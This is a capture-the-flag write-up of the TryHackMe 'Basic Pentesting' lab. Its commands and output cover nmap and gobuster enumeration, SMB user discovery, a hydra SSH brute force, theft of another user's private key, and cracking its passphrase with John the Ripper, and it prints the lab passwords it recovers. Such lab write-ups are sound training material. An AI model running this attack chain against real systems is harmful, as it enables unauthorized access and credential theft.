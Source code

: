 Ran a basic nmap scan : 

```console 
nmap -A -sV -p- 10.10.156.80 --min-rate 5000 -oN nmap.txt
```
This was the output: 
```console 
──(roshan㉿redhood)-[~/Downloads/THM/basic_pentesting]
└─$ nmap -A -sV -p- 10.10.156.80 --min-rate 5000 -oN nmap.txt
#redacted
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  Protocol0   Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-title: Apache Tomcat/9.0.7
|_http-favicon: Apache Tomcat
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m13s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2024-01-22T05:25:03
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2024-01-22T00:25:03-05:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.86 seconds
```

We see that port 80 is open and running a web server. 
Ran a `gobuster` scan to get the following : 
```console 
┌──(roshan㉿redhood)-[~/Downloads/THM/basic_pentesting]
└─$ gobuster dir -u http://10.10.156.80:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100
#redacted
/development          (Status: 301) [Size: 318] [--> http://10.10.156.80/development/]
Progress: 26133 / 220561 (11.85%)^C
```
The /development/j.txt and /development/dev.txt had the following:
```j.txt
For J:
I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.
-K
```
 
```dev.txt
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```
With the mention of /etc/shadow, I assumed that this was with regards to the `ssh` server. 
I tried bruteforcing the login credentials to the `ssh` server, but it did not get me anywhere.
I tried enumerating the shares on the `smb` server to check for possible usernames. This was the output:
```console 
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```
2 users were found!
Let's try bruteforcing with `kay` and `jan`
```console 
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.156.80:22  
```
After awhile, we are able to get the login information for `jan`:
```console
└─$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.156.80:22
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-22 14:30:08
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.156.80:22/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 14344245 to do in 1532:31h, 14 active
[STATUS] 98.67 tries/min, 296 tries in 00:03h, 14344105 to do in 2422:60h, 14 active
[STATUS] 102.29 tries/min, 716 tries in 00:07h, 14343685 to do in 2337:12h, 14 active
[22][ssh] host: 10.10.156.80   login: jan   password: armando
```
Logging in as `jan`  and trying to enumerate for any vectors to escalate privileges, we come across the `.ssh` sub-directory under the `kay` directory. 
Here, we can find the private key that provides with a passphrase for login, under `id_rsa`.
I copied over the private key onto my own machine and performed the following to try and crack the key using JtR.
```
```console
┌──(roshan㉿redhood)-[~/Downloads/THM/basic_pentesting]
└─$ locate ssh2john.py    
/usr/share/john/ssh2john.py
                                                                                                                      
┌──(roshan㉿redhood)-[~/Downloads/THM/basic_pentesting]
└─$ python3 /usr/share/john/ssh2john.py id_rsa > decrypted.txt
                                                                                                                      
┌──(roshan㉿redhood)-[~/Downloads/THM/basic_pentesting]
└─$ ls                
decrypted.txt  id_rsa  nmap.txt
                                                                                                                      
┌──(roshan㉿redhood)-[~/Downloads/THM/basic_pentesting]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt decrypted.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)     
1g 0:00:00:00 DONE (2024-01-22 15:30) 7.142g/s 590971p/s 590971c/s 590971C/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Using the passphrase, we can log in as kay:
```console 
┌──(roshan㉿redhood)-[~/Downloads/THM/basic_pentesting]
└─$ ssh -i id_rsa kay@10.10.156.80 -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
kay@basic2:~$ 
```
we can list the contents of the directory, where we find the `pass.bk`
```console
kay@basic2:~$ ls 
pass.bak
kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
kay@basic2:~$ 

```